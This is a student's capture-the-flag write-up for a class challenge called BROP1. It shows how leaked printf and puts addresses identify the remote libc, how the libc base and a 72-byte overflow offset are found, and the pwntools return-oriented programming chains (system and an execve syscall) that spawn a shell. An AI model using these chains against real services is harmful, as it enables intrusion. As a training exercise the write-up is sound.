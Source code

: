 # BROP1:Solution

This is the output from connecting the the remote server, since there's no binary to analyze:
```
--------------------------------------------------------------------------------
MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWNXK0OOOOOO0KXNWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMMMWWXOxoc:;;,,,,,,;;:coxOXWMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMWXOo:;,,,,,,,,,,,,,,,,,,;:oOXWMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMWXxc;,,,,,,,,,,,,,,,,,,,,,,,,;cxXWMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMWNkc,,,,,,,,,,,,,,,,,,,,;clddc,,,;ckNWMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMWXd;,,,,,,,,,,,,,,;:cloxOKXWWWk;,,,,;dXWMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMXo;,,,,,,,,,,,,;lk0XNNWMMMMMMWk;,,,,,;oXMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMNx;,,,,,,,,,,,,,;kWWMMMMMMMMMMWk;,,,,,,;xNMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMW0c,,,,,,,,,,,,,,:kWMMMMMMWWNXNNk;,,,,,,,c0WMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMWx;,,,,,,,,,,,,,,:kWWNXX0kxoccxNk;,,,,,,,;xWMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMNd,,,,,,,,,,,,,,,;kXklc:;,,,,;xXk;,,,,,,,,dNMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMNd;,,,,,,,,,,,,,,:kKd,,,,;ldxkKNk;,,,,,,,;dNMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMWk:,,,,,,,,,,,,,,;kKd,,;o0NWMMMNx;,,,,,,,:kWMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMWKl,,,,,,,,,,;cldxKXd,,lKWMMMWNOl,,,,,,,,lKMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMWOc,,,,,,,;oOXWWMWXd,,:d0KKOxo:,,,,,,,,cOWMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMWOc,,,,,,dXWMMMMNOc,,,,;;;,,,,,,,,,,,cOWMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMW0l;,,,,lOKXX0ko:,,,,,,,,,,,,,,,,,;l0WMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMWXxc,,,,;:::;,,,,,,,,,,,,,,,,,,,cxXWMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMWKxl;,,,,,,,,,,,,,,,,,,,,,,;lkKWMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMMWN0xo:;,,,,,,,,,,,,,,;:ox0NWMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMMMMMWWX0kxdollllllodxk0XWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
--------------------------------------------------------------------------------
                             address of printf() 0x7f8d59fb5700 
                              address of puts() 0x7f8d59fdc9e0 
--------------------------------------------------------------------------------
                        I was young, but I wasn't naive
                I watched helpless as you turned around to leave
                   And still I have the pain I have to carry
                              - Blind, Lifehouse 
--------------------------------------------------------------------------------
```

Since one of the addresses given is the puts() function, it seems like this should be a ret2puts/ret2libc exploit. 

First we can use the addresses of printf() and puts() to find the version of libc being used on the remote server.
```
~/workspace/vuln/libc_stuff/libc-database]
    ./find puts 9e0
    ubuntu-glibc (libc6_2.36-0ubuntu4_amd64)
```

When I downloaded it from the database it turned out to be a directory, and the version inside the directory I used was libc.so.6

Then we can calculate the base address of libc, and check that the address ends in 000.
```
# Calculate offset        
libc.address = puts - libc.sym['puts']

log.success(f"libc offset @ {hex(libc.address)}")
```

To find the oveflow of the buffer I sent multiples of 8 into the program until It stopped returning and EOF then decreased by 1 until it came back, later Chandler was kind enough to show me the automated loop he used and for future reference I'm adding it to the repository I keep for class. I tend to make things harder for myself than they need to be.

Then I tried to do a ret2libc
```
# overflow
chain = b'A' * 72
chain += p64(libc.address + r.find_gadget(['ret'])[0]) # 8 bytes to align stack
chain += p64(libc.address + r.find_gadget(['pop rdi','ret'])[0]) # returns list of gadgets [0] takes first one
chain += p64(libc.address + next(libc.search(b'/bin/sh\x00')))
chain += p64(libc.address + libc.sym['system'])

p.sendline(chain)
p.interactive()
```

This however didn't seem to be working, and when I consulted fellow classmates, they also seemed to have some issue with this and it was an issue with 'system'. So I pivoted to the recommended execve path. 
```
# setup a few gadgets
syscall = offset + r.find_gadget(['syscall', 'ret'])[0]
bin_sh = next(libc.search(b'/bin/sh'))

# chain = b'A' * 72                                                     # overflow
chain = cyclic(72)
chain += p64(offset + r.find_gadget(['pop rdi', 'ret'])[0])             # clear rdi
chain += p64(offset + bin_sh)                                           # set rdi -> /bin/sh
chain += p64(offset + r.find_gadget(['pop rsi', 'ret'])[0])             # clear rsi
chain += p64(0)
chain += p64(offset + r.find_gadget(['pop rdx', 'ret'])[0])             # clear rdx
chain += p64(0)
chain += p64(offset + r.find_gadget(['pop rax', 'ret'])[0])             # clear rax
chain += p64(59)                                                        # execve
chain += p64(syscall)                                                   # execute syscall
```

Proceed to foget to pop rax for an hour and keep checking that you typed the rest of the find_gadgets correct until someone else checks your code. Add another hour for forgetting to add the offset to /bin/sh, then accidentally adding it twice to syscall.

Then send the chain after the last of the command line output and get the flag!
```
flag{I_n3v3r_th0ught_we_d_B_h3r3}
```

Resources:
* Class slides 
* Louie
* Chandler
* https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/
* https://man7.org/linux/man-pages/man2/execve.2.html
